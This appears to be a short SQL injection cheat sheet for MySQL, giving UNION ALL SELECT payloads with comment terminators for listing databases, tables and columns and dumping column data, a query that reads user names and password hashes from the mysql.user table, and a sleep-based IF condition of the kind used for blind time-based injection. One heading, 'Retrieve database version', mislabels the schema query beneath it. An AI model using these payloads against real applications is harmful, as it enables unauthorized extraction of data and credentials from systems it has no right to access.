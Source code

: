 GET ALL DATABASES:
--------------------------------
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

Retrieve database version:
----------------------------
UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--

Retrieve table names:
----------------------
1 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='database1'--

Retrieve column names:
-----------------------
1 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='table1'--

Retrieve data:
-----------------
1 UNION ALL SELECT NULL,concat(0x28,column1,0x3a,column2,0x29) FROM table1--

SELECT TABLE_SCHEMA,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES; -> GET DATABASE, TABLE NAMES

SELECT HOST,USER,PASSWORD,AUTHENTICATION_STRING FROM MYSQL.USER 

select table_name from information_schema.tables where table_schema = database(); // or 'table_schemata = 'dba_name';

Note that in MySQL 5.7 and above the column ‘password’ doesn’t exists. They have changed it to ‘authentication_string’.

MYSQL FUNCTIONS:
-----------------

Mysql functions: https://medium.com/analytics-vidhya/mysql-functions-cheatsheet-with-examples-3a08bb36d074

version(), user(), database(), now(), power(2,10) - gives 1024 -> basic functions 

concat('str1','str2') -> str1str2

concat_ws('delimiter','str1','str2') -> str1:str2

MYSQL FUNCTIONS: 

https://dev.mysql.com/doc/refman/8.0/en/functions.html (be carefull this applies for MYSQL 8.0) !! 

https://www.w3schools.com/sql/func_mysql_if.asp

SUBQUERIES:
------------

select if (1=1,true,false); -> gives 1 back 

select if (1=1,sleep(3),sleep(0));

SELECT IF(COUNT(*) > 0, 'yes', 'no') FROM mytable;
